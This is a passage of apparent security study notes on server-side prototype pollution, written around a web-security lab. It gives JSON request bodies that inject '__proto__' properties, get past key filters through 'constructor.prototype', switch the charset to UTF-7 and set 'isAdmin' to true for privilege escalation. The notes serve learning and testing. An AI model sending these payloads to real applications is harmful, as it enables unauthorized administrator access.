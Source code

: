 ```json
{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"+AFU-+AEs-","sessionId":"uuRWSzCFQl6WAGtaRbZuWp8SHrk4CkCg"
}
```

The string may appear as the same if UTF-7 is not used by default. If so, try polluting the prototype with a content-type property that sets the charset value to UTF-7:

```json
{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"+AFU-+AEs-","sessionId":"uuRWSzCFQl6WAGtaRbZuWp8SHrk4CkCg",
"__proto__":{
"content-type":"application/json; charset=utf-7"}
}
```
# Bypass Input Filters

Sites attempt to prevent prototype pollution by filtering suspicious keys like `__proto__`. The key sanitization approach is not a long-term solution since it can be bypassed such as:

- Obfuscating the prohibited keywords so they are missed during sanitization.
- Accessing the prototype via the constructor property instead of `__proto__`.

>[!info]
>Some apps can also delete or disable `__proto__` using the command line flags `--disable-proto=delete` or `--disable-proto=throw`. It can also be bypassed by using constructor technique.

For example, observe a request that sends any JSON data and returned JSON data.  Try polluting the object prototype by adding a new property to JSON with the value of an object that contains a property with the value of `true`:

```json
{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"US","sessionId":"evAJIExZf87QjwbQ8jj5QkDWVWbw90MR",
"__proto__":{
"polluted":true}}
```

If it does not get reflected, try using the `constructor` technique instead by adding a new property with a name `constructor` that has a value of an object containing a property with the name `prototype` which have the value of an object containing the polluted property with the value `true`:

```json
{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"US","sessionId":"evAJIExZf87QjwbQ8jj5QkDWVWbw90MR",
"constructor":{
"prototype":{
"polluted":true}}}
```

If the response contains the polluted property, but does not contain constructor or prototype, it indicates a successful pollution of the object prototype and the property is inherited via the chain. If so, try changing the `isAdmin` value to true:

```json
{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"US","sessionId":"evAJIExZf87QjwbQ8jj5QkDWVWbw90MR",
"constructor":{
"prototype":{
"isAdmin":true}}}
```
